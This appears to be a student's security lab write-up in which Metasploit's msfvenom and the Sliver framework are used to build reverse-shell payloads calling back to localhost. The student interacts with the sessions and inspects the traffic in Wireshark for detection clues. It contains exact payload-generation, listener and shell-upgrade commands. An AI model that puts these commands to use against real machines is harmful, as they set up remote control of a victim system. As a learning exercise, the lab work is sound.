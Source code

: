 # A) Sniff venom
At first I made malicious binaries with msfvenom. I used the following command: `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o infected1`  
After the malicious binary was made, i opened multi/handler in msfconsole, and set the LHOST, LPORT and the payload to be the same as the attack payload.  
Then i started up the ran the malicious binary and got a connection to multi/handler.  
<img width="464" height="65" alt="image" src="https://github.com/user-attachments/assets/fccd63f0-f5d3-4776-8db7-04696f861dfe" />  
Now that the connection has been made, i opened wireshark and gave a few random commands in the meterpreter session to see what the traffic looks like  
<img width="824" height="105" alt="image" src="https://github.com/user-attachments/assets/7a9ef415-fd1e-430f-837f-40e5ca7c1726" />  
This was the traffic of a single `ls` command. Im not sure how to analyze this. Maybe this can be detected by unusual TCP port?  
# B) Hello, Sliver.  
I started out by downloading sliver: `sudo apt-get install sliver`  
After that I ran sliver: `sliver-server`  
Then I generated a malicious payload for linux and set the callback address as loopback: `generate --http 127.0.0.1 --os linux`  
<img width="277" height="103" alt="image" src="https://github.com/user-attachments/assets/483bbc19-c759-4844-a345-5eaad58b4d4b" />  
After that I started the http listener with the command `http`, and ran the payload.  
<img width="647" height="65" alt="image" src="https://github.com/user-attachments/assets/7a324193-565f-443d-b140-d736405a02a1" />  
To interact with the session, I used the command `sessions -i sessionID`  
<img width="191" height="35" alt="image" src="https://github.com/user-attachments/assets/2c87299f-ffa6-452c-99d6-053ceaee4c15" />  
I tried to analyze the traffic once again with wireshark, but I cannot pinpoint anything suspicious about the traffic, maybe once again a weird portnumber?
<img width="781" height="215" alt="image" src="https://github.com/user-attachments/assets/f66b706e-8c44-433f-8ba3-c1de2b771383" />  
# D) Changing connection properties.  
While the sessions was alive and I was interacting with it, I used the `help` command to see what kinds of operations I can do in this session.  
The first thing that popped from the list was the command `shell` that upgrades my session to get me shell.  
<img width="358" height="89" alt="image" src="https://github.com/user-attachments/assets/b623197d-ab52-429a-83ed-637d9476f2be" />  
Apparently, this is bad OpSec :D. But I press yes, i'm an adult and got the shell.  
After this, I tried to change the reconnection interval, which was currently set at 1 ms.  
<img width="299" height="188" alt="image" src="https://github.com/user-attachments/assets/9d8e69fe-1f37-4e7f-a8df-7486d955400e" />  
I tried this with this command: `reconfig -r 1s`, and it was succesful.  
<img width="284" height="180" alt="image" src="https://github.com/user-attachments/assets/c2d0d396-83b2-4188-a0da-b558acb22f69" />  











